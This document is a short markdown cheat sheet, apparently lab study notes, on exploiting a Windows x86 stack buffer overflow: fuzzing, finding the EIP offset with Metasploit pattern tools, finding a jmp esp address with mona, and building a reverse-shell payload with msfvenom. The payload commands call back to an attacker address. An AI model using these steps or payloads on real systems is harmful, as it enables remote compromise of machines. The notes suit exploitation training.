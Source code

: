 # Bufferoverflow sequence/process

### 1. Fuzzing

Create script and send "A" for the payload size (2700, 3500 etc)

### 2. Replicate crash and identify the exact charset /bytes where the application gets crash

Use following commands to generate unique chars and offset value

```
/usr/share/metasploit-framwork/tools/pattern_create.rb 2700
/usr/share/metasploit-framwork/tools/pattern_offset.rb <EIP Address>  
```
### 3. Update script and check we can control both EIP and ESP register

```
buf += "A"*146 + "B"*4 + C*(2700-146-4)
```

### 4. Control ESP register and identify the bad characters 

Some of the bad characters are "\x00", "\x0a" etc

### 5. Identfify mona modules and choose the exact module (Without CSP and ASLR)

Choose a module does not contain memory protetcion such as ASLR and DEP -> It should be false
Memory range should not contain any bad character such as 00 and 0a (In our case here)
```
!mona modules 
```

Identify the memory address of jmp esp
configure this address in reverse order in the script, as it is x86 architecture
Eg: \x9d\xdc\x25\x77
```
Search jmp esp
buf += "A"*146 + "\x9d\xdc\x25\x77" + "C"*(2600-146-4)

```

### 6. Generating Shell code using msfvenom & removing bar chars

```
msfvenom --payload windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 --bad-chars '\x00\x0a' -f C

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.28.128 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"
```

### 7. Update/inject this payload in the script
Along with payload, give some space to decode the code
```
buf += "A"*146 + "\x9d\xdc\x25\x77" + "\x90"*16 + shellcode + "C"*(2700-146-4-16-351)
```
